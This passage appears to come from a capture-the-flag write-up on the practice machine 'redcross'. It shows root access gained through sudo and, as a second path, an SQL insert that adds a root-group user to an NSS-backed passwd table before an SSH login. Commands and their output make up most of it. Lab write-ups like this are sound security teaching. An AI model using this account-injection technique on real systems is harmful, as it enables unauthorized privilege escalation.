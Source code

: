 And `sudo`:

```

sud0xdfer@redcross:~$ sudo su

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for sud0xdfer:
root@redcross:/home/penelope# id
uid=0(root) gid=0(root) groups=0(root)

```

Get `root.txt`:

```

root@redcross:~# cat root.txt 
892a1f4d...

```

### Path 2: Via unixnssroot

#### Create User With root Group

I confirmed with the box author that the intended path was as follows.

I’ll create a user just as the previous times with the root group id:

```

unix=> insert into passwd_table (username, passwd, gid, homedir) values ('ro0xdft', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 0, '/root');
INSERT 0 1

```

And ssh in:

```

root@kali# ssh ro0xdft@10.10.10.113
ro0xdft@10.10.10.113's password: 
Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ro0xdft@redcross:~$ id
uid=2024(ro0xdft) gid=0(root) groups=0(root)

```
